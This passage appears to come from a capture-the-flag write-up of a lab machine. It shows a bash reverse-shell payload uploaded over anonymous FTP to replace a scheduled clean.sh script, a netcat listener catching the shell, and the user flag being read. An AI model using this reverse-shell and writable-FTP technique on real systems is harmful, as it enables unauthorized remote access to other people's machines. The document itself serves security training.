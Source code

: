 <br>

<p>Let´s used the following payload replacing <code>clean.sh</code></p>

![image](https://github.com/user-attachments/assets/2da1926c-1ba3-4fc4-9239-5ff2e97df430)

<pre><code>
#!/bin/bash
bash -i >& /dev/tcp/[Attack_Box]/[Chosen_Port] 0>&1
</code></pre>

<br>

<pre><code>root@[Attack_Box]:~/anonymous# nc -nvlp [Chosen_Port]
Listening on [0.0.0.0] (family 0, port [Chosen_Port])
</code></pre>

<br>

<pre><code>oot@ip-[Attack_Box]:~/anonymous# ftp [Target]
Connected to [Target].
220 NamelessOne's FTP Server!
Name ([Target]:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
55 bytes sent in 0.00 secs (1.3113 MB/s)
ftp> 
</code></pre>

<br>

<pre><code>root@ip-[Attack_Box]:~/anonymous# nc -nvlp [Chosen_Port]
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [Target] 34812 received!
bash: cannot set terminal process group (1522): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 
</code></pre>
